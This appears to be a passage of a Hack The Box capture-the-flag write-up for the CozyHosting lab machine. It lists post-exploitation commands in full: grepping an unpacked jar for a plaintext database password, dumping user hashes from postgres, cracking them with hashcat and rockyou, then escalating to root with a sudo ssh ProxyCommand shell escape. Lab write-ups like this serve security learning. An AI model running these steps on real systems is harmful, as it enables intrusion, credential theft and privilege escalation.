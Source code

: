 ```
(in user bash)
12. get more stable bash: script /dev/null -c bash
13. cmd: unzip -d /tmp/app cloudhosting-0.0.1.jar
14. cd /tmp/app; grep -inr "password"; (find pass in file ./BOOT-INF/classes/application.properties:12:)
15. grep -inr -A3 -B3 "password=Vg&nvzAQ7XxR"
    (BOOT-INF/classes/application.properties-9-spring.datasource.platform=postgres
     BOOT-INF/classes/application.properties-10-spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
     BOOT-INF/classes/application.properties-11-spring.datasource.username=postgres
     BOOT-INF/classes/application.properties:12:spring.datasource.password=Vg&nvzAQ7XxR)
16. login postgresql: psql -h 127.0.0.1 -U postgres

(in postgres cmd line)
17. cmd: \list (found interesting database cozyhosting)
18. cmd: \connect cozyhosting
19. cmd: \dt  (show 2 tables "hosts" and "users")
20. cmd: select * from users;
     (kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim)
     (admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm)
21. Identify the hash type: hashid $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
22. crack passwd:
    hashcat hash.txt -m 3200 /usr/share/wordlists/rockyou.txt (manchesterunited)
23. cat /etc/passwd (found user josh)

(login as josh)
24. ssh josh@{ip} with found password "manchesterunited"
25. sudo -l found ssh
26. https://gtfobins.github.io/gtfobins/ssh/#shell found exploit
27. exploit: sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```



## HTB: Builder 12 Feb 2024

## HTB: Keeper 10 Feb 2024

## HTB: Sau 06 Jan 2024

## HTB: Broker 09 Nov 2023

## HTB: Intentions 14 Oct 2023

## HTB: Aero 28 Sep 2023

## HTB: Busqueda 12 Aug 2023
